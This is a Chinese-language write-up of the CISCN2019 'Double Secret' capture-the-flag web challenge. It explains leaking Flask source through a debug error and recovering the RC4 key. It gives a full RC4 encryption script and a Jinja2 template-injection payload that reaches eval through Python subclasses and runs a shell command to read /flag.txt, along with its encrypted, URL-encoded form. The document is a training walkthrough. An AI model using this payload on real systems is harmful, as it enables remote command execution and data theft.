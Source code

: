 ```yaml
---
title: '[CISCN2019 华东南赛区]Double Secret'
date: 2024-06-18 19:12:30
tags: 
      - RC4加密
categories: 刷题笔记
---
```


### [CISCN2019 华东南赛区]Double Secret（RC4加密）

我们打开页面，同时要我们寻找secret，

这就很明显了吧，我们访问secret页面

![image-20240619210204964](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406192102112.png)

然后页面提示要我们输入secret的值，那不就是传参嘛，我们随便传一个值

<!--more-->

```
?secret=1
```

![image-20240619210303129](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406192103222.png)

我们传入1，页面却回显了d，说明页面对我们传入的内容进行了加密，我们尝试增加参数的长度

```
?secret=111111111111111111
```

![image-20240619210417663](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406192104835.png)

得到报错信息，源码直接泄露了

![image-20240619210450719](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406192104830.png)

```
 if(secret==None):
        return 'Tell me your secret.I will encrypt it so others can\'t see'
    rc=rc4_Modified.RC4("HereIsTreasure")   #解密
    deS=rc.do_crypt(secret)
 
    a=render_template_string(safe(deS))
 
    if 'ciscn' in a.lower():
        return 'flag detected!'
    return a
```

我们对代码进行审计，如果secret是空，就会返回错误信息，如果传入了值，就会进行RC4解密，密钥是"HereIsTreasure"

所以我们需要对传入的secret进行RC4加密。我们了解到这是flask的模板，而且python的版本是2.7的，那么我们可以利用flask的模板注入，执行命令，只不过需要进行RC4加密。

加密脚本

```
# -*- coding: utf-8 -*-
import base64
 
def get_message():
	print("输入你的信息： ")
	s=input()
	return s
 
def get_key():
	print("输入你的密钥： ")
	key=input()
	if key=='':
		key="不要输入空的 key 值"
	return key
 
def init_box(key):
	"""
	S盒
	"""
	s_box=list(range(256))	#这里没管秘钥小于256的情况，小于256应该不断重复填充即可，这里完成了 C 实现中的 for(i=0;i<256;i++) prc4->s_box[i] = i;
	j=0
	for i in range(256):
		j=(j+s_box[i] + ord(key[i % len(key)])) % 256	#这里把 C 实现中的 prc4->t_box[i] = key[i % keylen];和j=(j+prc4->s_box[i]+prc4->t_box[i])%256;合并在了一起。
		s_box[i],s_box[j] = s_box[j],s_box[i]
	#print(type(s_box)) #可以输出 s_box 来看是否随机混乱的
	return s_box
 
def ex_encrypt(plain,box,mode):
	"""
    利用PRGA生成秘钥流并与密文字节异或，加解密同一个算法
    """
	if mode == '2':
		while True:
			c_mode=input("输入你的解密模式：base64 or ordinary\n")
			if c_mode == 'base64':
				plain=base64.b64decode(plain)
				plain=bytes.decode(plain)				#因为返回的是解码过的  bytes，所以需要再用 decode 解码成字符串。
				break
			elif c_mode == 'ordinary':
				break
			else:
				print("输入不合法，请重新输入")
				continue
	
	res=[]
	i=j=0
	for s in plain:						
		i=(i+1)%256
		j=(j+box[i])%256
		box[i],box[j]=box[j],box[i]
		t=(box[i]+box[j]) % 256
		k=box[t]
		res.append(chr(ord(s)^k))
 
	cipher="".join(res)
    #print(cipher)
 
#根据选择进行输出，至于是明文还是密文得看用户决定
	if mode == '1':
        # 化成可视字符需要编码
		print("加密后的输出（没经过任何编码）")
		print(cipher)
        # base64的目的也是为了变成可见字符
		print("base64后的编码")
		print(str(base64.b64encode(cipher.encode('utf-8')),'utf-8'))
	if mode == '2':
		print("解密后的密文")
		print(cipher)
 
def get_mode():
	print("请选择加密或者解密")
	print("1.Encrypt")
	print("2.Decrypt")
 
	mode = input()
 
	if mode == '1':			#加密解密虽同源，但是由于不能直接用 =='1' or '2'，所以还是得分开写
		message = get_message()
		key = get_key()
		box = init_box(key)
		ex_encrypt(message,box,mode)
	elif mode == '2':			#由于异或运算的对合性，RC4加密解密使用同一套算法。
		message = get_message()
		key = get_key()
		box = init_box(key)
		ex_encrypt(message,box,mode)
	else:
		print("输入有误！ ")
 
if __name__ == '__main__':
	while True:
		get_mode()
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag.txt').read()")}}{% endif %}{% endfor %}


//.J%19S%C2%A5%15Km%2B%C2%94%C3%96S%C2%85%C2%8F%C2%B8%C2%97%0B%C2%90X5%C2%A4A%C3%9FMD%C2%AE%07%C2%8BS%C3%9F7%C3%98%12%C3%85r%C3%A9%1B%C3%A4%2A%C3%A7w%C3%9B%C2%9E%C3%B1h%1D%C2%82%25%C3%AD%C3%B4%06%29%7F%C3%B0o%2C%C2%9E9%08%C3%87%C3%B7u.%C3%BB%C2%95%14%C2%BFv%05%19j%C2%AEL%C3%9A-%C3%A3t%C2%AC%7FX%2C8L%C2%81%C3%91H%C3%BF%C3%B6%C3%A3%C3%9A%C3%B5%C2%9A%C2%A6%23%06%C2%A7%C2%B8%C2%BB%C2%B9%C3%A6ny%C3%98%C3%8Aj%C2%BB%25X%15%C3%97%C2%84F%24%1As%5E%C2%9B%C3%97%C2%A4%20j%C2%A5/%17%1C%C3%9Fs%C2%AF6%C3%85%C2%A5%C2%B1.%C3%A8%C2%A2Y%21%C2%A8%C3%A0%10%C2%8Aa%5D%5C%2B%C3%8E%C2%B0%C2%99%C3%A0%C2%BE%C2%87-%10x%20%5D%C3%9A%0B%C2%882P%C3%A3%C3%93%08n0%C3%AE%C3%BDb%C2%B1%C3%80%C3%B6%1F%5B%C2%88B%23~%C3%A6%C2%BC%5D%C2%81%C3%BF%C3%88d%C2%AE%C2%B8%C3%8E2%C2%92%20C%C2%B7%C2%B7%C2%95%C3%95Wj%C3%93%C2%B5%C3%AA_%C2%A1%2B%C2%87%C2%B5l%08%27%3F%C3%96


```

得到flag

![image-20240619211822617](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406192118690.png)
